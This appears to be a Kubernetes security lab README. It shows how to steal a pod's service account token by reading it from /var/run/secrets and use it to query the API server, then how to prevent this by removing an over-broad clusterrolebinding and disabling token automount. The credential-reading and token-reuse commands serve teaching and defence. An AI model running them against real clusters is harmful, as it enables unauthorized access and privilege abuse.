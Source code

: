 # Identity theft

In this lab you will steal the identity of a pod.

## Attack

### SSH into the VM

```bash
gcloud compute ssh root@kubernetes-security --zone europe-west3-a
```

### Getting the credentials

```bash
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

### Exploiting the API-Server

```bash
TOKEN=$(kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt > ca.crt

# get infos about pods
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

## Avoiding the Attack

### Checking the permissions

```bash
# check permissions in the default namespace
kubectl auth can-i --list --namespace default

# check the clusterrolebinding
kubectl describe clusterrolebinding my-suboptimal-clusterrolebinding

# check the permissions of the cluster role
kubectl describe clusterrole cluster-admin
```

### Disable permissions

```bash
# disable permissions
kubectl delete clusterrolebinding my-suboptimal-clusterrolebinding

# try to get infos about pods - now this should fail
curl -s $API_SERVER/api/v1/namespaces/default/pods --header "Authorization: Bearer $TOKEN" --cacert ca.crt
```

### Avoiding token mounts

Disable automount of ServiceAccount Token in the file `pod.yaml`

```yaml
spec:
  automountServiceAccountToken: false # <= disable automount of ServiceAccount Token
```

```bash
kubectl apply -f pod.yaml --force
```

#### Verify sensible data is not mounted anymore

```bash
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/token
kubectl exec -it my-suboptimal-pod -- cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```
